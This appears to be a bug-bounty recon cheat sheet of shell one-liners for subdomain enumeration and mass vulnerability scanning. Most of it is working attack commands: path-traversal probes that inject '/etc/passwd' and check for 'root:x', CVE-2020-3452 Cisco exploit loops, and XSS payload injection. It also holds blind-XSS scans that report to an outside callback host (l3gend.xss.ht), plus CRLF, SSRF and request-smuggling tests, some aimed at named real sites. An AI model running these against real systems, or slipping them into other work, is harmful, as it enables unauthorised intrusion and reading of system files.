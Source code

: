 # Method 1

## domains

cat wildcards.txt | assetfinder -subs-only | anew domains

amass enum -df wildcards.txt | anew domains

subfinder -silent -dL wildcards.txt| anew domains

## one liners and tools

sort -u domains | httprobe > uniq.txt

crlfuzz -l uniq.txt -s

gau uniq.txt | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'

cat uniq.txt |waybackurls | gf xss | sed 's/=.*/=/' | sort -u | tee FILE.txt && cat FILE.txt | dalfox -b l3gend.xss.ht pipe > OUT.txt

python3 ~/tools/Corsy/corsy.py -i uniq.txt 

python3 ~/tools/XSStrike/xsstrike.py -u "https://www.glassdoor.com/rss/interviews.rss?id=lol" 

python3 ~/tools/smuggler/smuggler.py -u "https://google.com" -m GET -q

python3 ~/tools/mass-bounty/CRLF-Injection-Scanner/crlf_scan.py -i uniq.txt


* CVE-2020-3452

```bash 
cat uniq.txt | while read h do; do curl -sk "$h/module/?module=admin%2Fmodules%2Fmanage&id=test%22+onmousemove%3dalert(1)+xx=%22test&from_url=x"|grep -qs "onmouse" && echo "$h: VULNERABLE"; done
```

```bash
while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < HOSTS.txt
```

subzy -targets domains -hide_fails

```bash
jaeles scan -s /root/.jaeles/base-signatures/cves/* -U domains.txt
```

## Heavy 
```bash
eyewitness --web -f uniq.txt -d /path_to_save_screenshots ##### optional , takes time, better grep for juicy domains and move forward
```

```bash
for I in $(ls); do 
        echo "$I" >> index.html;
        echo "<img src=$I><br>" >> index.html;
done
```

## SSRF Test (Wayback + Burp Pro)

```bash
cat wayback.txt | gf ssrf | sort -u >> testblindssrf.txt
```

```bash
cat testblindssrf.txt | qsreplace "burp_url" >> ssrfuzz.txt

ffuf -c -w ssrfuzz.txt -u FUZZ -t 200
```

## dalfox

python3 ~/tools/ParamSpider/paramspider.py --domain google.com -o param.txt

dalfox -b l3gend.xss.ht file param.txt
